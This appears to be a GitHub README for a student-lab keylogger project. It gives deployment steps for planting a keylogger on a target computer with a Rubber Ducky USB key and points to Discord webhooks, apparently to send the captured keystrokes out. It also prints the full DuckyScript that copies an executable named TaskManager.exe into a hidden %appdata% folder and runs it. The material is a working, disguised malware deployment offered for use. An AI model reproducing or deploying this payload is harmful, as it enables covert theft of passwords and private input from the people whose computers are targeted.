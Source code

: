 # Project KeyLogger Labo SSI

## Project
A simple KeyLogger malware

## Installation
To set up the use of the malware, follow these steps:
1. - Equip yourself with a Rubber Ducky USB key
2. - Download the TaskManager.exe malware from GitHub (https://github.com/Aube33/keylogger-labo-ssi/releases)
3. - Download the inject.bin script for the Rubber Ducky from GitHub (https://github.com/Aube33/keylogger-labo-ssi/releases)
4. - Place the TaskManager.exe file at the root of your Rubber Ducky
5. - Place the inject.bin file at the root of your Rubber Ducky
6. - Plug the key into the target computer


## Webhook url
Référez-vous à cette url
https://support.discord.com/hc/fr/articles/228383668-Introduction-aux-Webhooks


## DuckyScript source:

```
REM *** Copy TaskManager.exe from USB to %appdata%/.TaskManager/ ***
DELAY 500
STRING for /f %d in ('wmic volume get driveletter^, label ^| findstr "DUCKY"') do set duck=%d
ENTER
DELAY 500
STRING xcopy /y %duck%\TaskManager.exe %appdata%\.TaskManager\TaskManager.exe
ENTER
DELAY 500

REM *** Execute TaskManager.exe ***
STRING %appdata%\.TaskManager\TaskManager.exe
ENTER
DELAY 500

REM *** GTFO ***
STRING exit
ENTER
STRING exit
ENTER
```
